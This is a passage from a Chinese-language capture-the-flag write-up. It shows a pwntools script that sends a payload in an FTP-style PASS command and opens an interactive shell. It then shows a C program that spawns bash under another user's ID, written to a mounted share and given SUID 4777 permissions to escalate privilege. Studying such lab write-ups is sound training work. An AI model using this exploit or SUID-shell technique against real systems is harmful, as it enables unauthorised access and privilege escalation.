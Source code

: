 ```python=
p = remote(ip,7411)
p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"PASS "+payload)

p.interactive()
```

### nobody

![image](https://hackmd.io/_uploads/ryS1cPIQ0.png)

可以發現有一個frank 的身分組

![image](https://hackmd.io/_uploads/HJuGcDU7A.png)

可以用logreader.sh 來升級

![image](https://hackmd.io/_uploads/H1kB5v87C.png)

但我們不能對他做啥

![image](https://hackmd.io/_uploads/BJipqPUQC.png)

但其實我們在前面掛載資料夾的時候有看過他
或是說我們也可以在這裡找到
是說我們如果用root身分進來會變成nobody
如果不是的話就是 1000的身分組

![image](https://hackmd.io/_uploads/HJM8jwUQA.png)

由於我們前面有掛共享資料夾
所以我們可以直接寫程式碼
改他的suid

//0xdf

```c=
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setresuid(1000, 1000, 1000);
    system("/bin/bash");
    return 0;
}

```

掛載後touch一個file
-static 跟上題一樣可以解決版本問題
4777 給他權限
